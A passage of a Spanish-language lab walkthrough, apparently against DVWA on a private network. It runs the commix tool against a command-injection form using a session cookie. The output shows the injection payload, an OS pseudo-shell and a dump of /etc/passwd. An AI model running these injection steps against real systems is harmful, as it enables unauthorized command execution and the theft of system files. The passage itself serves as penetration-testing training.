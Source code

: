 ```
ip=192.168.5.200&Submit=Submit
```

Sabiendo esto, tendremos que hacer lo siguiente:

```shell
commix -u http://192.168.5.211:1335/vulnerabilities/exec --cookie="PHPSESSID=208meqdlm53fcn13t35sbrbqf4; security=low" --data="ip=192.168.5.200&Submit=Submit"
```

Info:

```
                                      __
   ___   ___     ___ ___     ___ ___ /\_\   __  _
 /`___\ / __`\ /' __` __`\ /' __` __`\/\ \ /\ \/'\  v4.0-stable
/\ \__//\ \/\ \/\ \/\ \/\ \/\ \/\ \/\ \ \ \\/>  </
\ \____\ \____/\ \_\ \_\ \_\ \_\ \_\ \_\ \_\/\_/\_\ https://commixproject.com
 \/____/\/___/  \/_/\/_/\/_/\/_/\/_/\/_/\/_/\//\/_/ (@commixproject)

+--
Automated All-in-One OS Command Injection Exploitation Tool
Copyright © 2014-2024 Anastasios Stasinopoulos (@ancst)
+--

(!) Legal disclaimer: Usage of commix for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

[04:45:40] [info] Testing connection to the target URL. 
Got a 301 redirect to 'http://192.168.5.211:1335/vulnerabilities/exec/'. Do you want to follow? [Y/n] > y
[04:45:42] [info] Following redirection to 'http://192.168.5.211:1335/vulnerabilities/exec/'. 
[04:45:42] [info] Checking if the target is protected by some kind of WAF/IPS.
[04:45:52] [info] Performing identification (passive) tests to the target URL.
[04:45:55] [warning] Target's estimated response time is 3 seconds. That may cause serious delays during the data extraction procedure and/or possible corruptions over the extracted data.
[04:45:55] [info] Setting POST parameter 'ip' for tests.
[04:45:55] [info] Performing heuristic (basic) tests to the POST parameter 'ip'.
[04:46:04] [info] Heuristic (basic) tests shows that POST parameter 'ip' might be injectable (possible OS: 'Unix-like').
[04:46:14] [info] Testing the (results-based) classic command injection technique.           
[04:46:14] [info] POST parameter 'ip' appears to be injectable via (results-based) classic command injection technique.
           |_ 192.168.5.200;echo EWNFUS$((46+28))$(echo EWNFUS)EWNFUS;
POST parameter 'ip' is vulnerable. Do you want to prompt for a pseudo-terminal shell? [Y/n] > y
Pseudo-Terminal Shell (type '?' for available options)
commix(os_shell) > cat /etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```
